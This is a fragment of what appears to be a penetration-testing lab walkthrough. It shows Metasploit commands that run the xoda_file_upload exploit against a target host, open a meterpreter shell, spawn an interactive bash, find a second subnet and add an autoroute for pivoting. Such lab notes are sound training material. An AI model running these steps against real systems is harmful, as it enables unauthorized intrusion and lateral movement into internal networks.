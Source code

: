 - Exploitation

```bash
search xoda
use exploit/unix/webapp/xoda_file_upload
set RHOSTS 192.41.167.3
set TARGETURI /
run
```

![](assets/image-20230412221111369.png)

- Perform a network scan on the second target

```bash
meterpreter > shell
```

```bash
/bin/bash -i
ifconfig
# 192.26.158.2 Local Lan subnet IP
exit
```

- Add the route within `meterpreter` and background the meterpreter session

```bash
run autoroute -s 192.26.158.2
background
```

![](assets/image-20230412221528898.png)
